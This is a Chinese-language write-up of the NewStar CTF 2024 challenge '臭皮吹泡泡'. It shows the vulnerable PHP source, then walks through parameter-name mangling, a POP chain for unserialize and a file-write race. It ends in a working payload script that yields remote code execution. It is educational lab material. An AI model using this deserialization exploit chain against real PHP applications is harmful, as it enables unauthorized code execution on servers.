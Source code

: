 ```yaml
---
titleTemplate: ":title | WriteUp - NewStar CTF 2024"
---
```


<script setup>
import Container from '@/components/docs/Container.vue'
</script>

# 臭皮吹泡泡

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

class study
{
    public $study;

    public function __destruct()
    {
        if ($this->study == "happy") {
            echo ($this->study);
        }
    }
}
class ctf
{
    public $ctf;
    public function __tostring()
    {
        if ($this->ctf === "phpinfo") {
            die("u can't do this!!!!!!!");
        }
        ($this->ctf)(1);
        return "can can need";
    }
}
class let_me
{
    public $let_me;
    public $time;
    public function get_flag()
    {
        $runcode="<?php #".$this->let_me."?>";
        $tmpfile="code.php";
        try {
            file_put_contents($tmpfile,$runcode);
            echo ("we need more".$this->time);
            unlink($tmpfile);
        }catch (Exception $e){
            return "no!";
        }

    }
    public function __destruct(){
        echo "study ctf let me happy";
    }
}

class happy
{
    public $sign_in;

    public function __wakeup()
    {
        $str = "sign in ".$this->sign_in." here";
        return $str;
    }
}



$signin = $_GET['new_star[ctf'];
if ($signin) {
    $signin = base64_decode($signin);
    unserialize($signin);
}else{
    echo "你是真正的 CTF New Star 吗？让我看看你的能力";
}
```

在参数传递时，`[` 是非法变量名，会被 PHP 处理成 `_`，这导致我们无法直接传递想要的参数 `new_star[ctf`.

然而，php 这样的处理只会处理一次，在首次处理后不会继续处理随后的违规字符。

因此，当我们传递的参数是 `new[star[ctf` 的时候，php 会处理成 `new_star[ctf`，这样就成功传递了参数。

构建 POP 链的终点是 `let_me` 的 `get_flag()` 函数，这里可以进行文件写入。

```php
$runcode = "<?php #". $this->let_me . "?>";
$tmpfile = "code.php";
try {
    file_put_contents($tmpfile, $runcode); // [!code highlight]
    echo ("we need more" . $this->time);
    unlink($tmpfile);
} catch (Exception $e) {
    return "no!";
}
```

文件前后添加了字符 `<?php #` 和 `?>`，这会把我们写入的 php 代码注释掉，导致不能正常执行。

这里我们可以闭合 php 符号，从而执行 php 代码。

```php
<?php # ?> <?php echo("1");?>
```

这里我们将代码写入文件就会被立刻删除，所以我们需要找一个办法，使得文件存在的时间长一点。注意到：

```php
public $ctf;
public function __tostring()
{
    if ($this->ctf === "phpinfo") {
        die("u can't do this!!!!!!!");
    }

    ($this->ctf)(1); // [!code highlight]
    return "can can need";
}
```

这里可以构造一个 `sleep(1)`，使得文件存在的时间增加 1 秒，这样就可以完成条件竞争。

<Container type='quote'>

出完题目发现可以直接使用 `die(1)`，这样可以直接使得文件不会被删除就退出。
</Container>

构造脚本如下：

```php
<?php
error_reporting(0);
class study {
    public $study;
}
class ctf {
    public $ctf;
}
class let_me {
    public $let_me;
    public $time;
}

class happy {
    public $sign_in;
}
$payload  = new happy();
$payload ->sign_in = new ctf();
$exp = new let_me();
$exp->let_me="?> <?php phpinfo();";
$exp->time=new ctf();
$exp->time->ctf="sleep";
$payload ->sign_in->ctf = array($exp,"get_flag");
echo base64_encode(serialize($payload));
?>
```

发包后快速访问我们写入的 `code.php`，完成 RCE（或者写一个脚本访问，或者 BurpSuite 爆破）

![发包](/assets/images/wp/2024/week5/choupichuipaopao_1.png)

![查看 phpinfo](/assets/images/wp/2024/week5/choupichuipaopao_2.png)
